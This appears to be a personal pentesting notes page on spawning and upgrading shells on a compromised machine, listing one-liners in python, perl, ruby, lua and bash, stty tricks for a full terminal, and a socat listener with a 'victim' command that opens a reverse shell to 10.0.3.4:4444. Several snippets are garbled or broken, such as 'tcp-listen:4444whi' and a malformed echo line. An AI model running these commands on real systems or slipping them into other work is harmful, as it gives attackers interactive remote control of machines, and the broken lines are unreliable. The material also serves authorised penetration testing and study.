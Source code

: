 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```


# Spawn a shell

Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).


Sidenote: Also, you can generate a webshell by using  msfvenom

## 

```bash
#Upgrafe shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


## python

```bash
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'
```


## bash

```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


## ssh

```bash
/bin/sh -i
```


## perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


## ruby

```bash
ruby:  exec "/bin/sh";
```


## lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

## socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444whi

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
  

## stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```
